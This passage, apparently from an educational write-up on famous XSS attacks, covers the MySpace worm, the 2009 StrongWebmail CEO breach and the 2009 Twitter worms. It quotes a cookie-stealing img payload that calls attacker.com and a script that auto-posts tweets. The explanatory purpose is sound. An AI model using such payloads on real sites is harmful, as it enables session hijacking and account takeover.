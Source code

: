 #### 🚨 Key Takeaway:

* Stored XSS + auto-replication = **XSS worm**
* It was one of the **first web worms** ever — and it took MySpace **offline**

---

### 📬 3. **StrongWebmail CEO Breach (2009)**

> **Vulnerability Type:** Stored XSS
> **Vector:** Malicious email
> **Impact:** CEO’s session hijacked → \$10,000 bounty won

#### 🧠 Attack Flow:

1. StrongWebmail displayed **HTML emails** using innerHTML or similar.
2. Attacker sends JavaScript-laced email:

   ```html
   <img src="http://attacker.com/?" + document.cookie />
   ```
3. CEO opens the mail → cookie gets sent to attacker
4. Hacker logs into CEO’s account using session token

#### 🚨 Key Takeaway:

* Webmail systems are **especially vulnerable** to stored XSS if:

  * They allow inline HTML
  * They don’t sanitize embedded JS
* Many webmail platforms today **still face this risk**, even with CSP and sandboxing

---

### 🐦 4. **Twitter XSS Worms (2009)**

> **Vulnerability Type:** Stored & DOM-Based XSS
> **Impact:** Auto-posting tweets → spreading via profile views

#### 🧠 Worm Logic:

1. Victim views a tweet/profile containing:

   ```html
   <script>location.href="http://twitter.com/poststatus?msg=..."</script>
   ```
2. That JavaScript **posts a tweet** promoting the attacker’s site.
3. Others click or view → they post the tweet too.
4. Worm spreads via DOM execution and auto-actions

#### 🚨 Key Takeaway:

* DOM XSS + auto-actions (like auto-tweet) = **weaponized social exposure**
* Even DOM-based issues (considered "harmless" by some) can **blow up virally**

---
